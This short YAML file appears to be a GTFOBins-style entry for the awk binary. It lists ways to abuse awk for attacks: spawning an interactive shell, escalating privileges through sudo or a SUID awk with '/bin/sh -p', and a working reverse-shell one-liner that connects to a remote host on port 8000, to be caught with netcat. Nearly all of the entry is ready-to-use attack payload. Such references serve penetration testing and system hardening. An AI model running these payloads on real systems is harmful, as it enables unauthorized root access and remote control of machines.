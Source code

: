 ```yaml
---
functions:
  exec-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh -p")}'
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
---
```

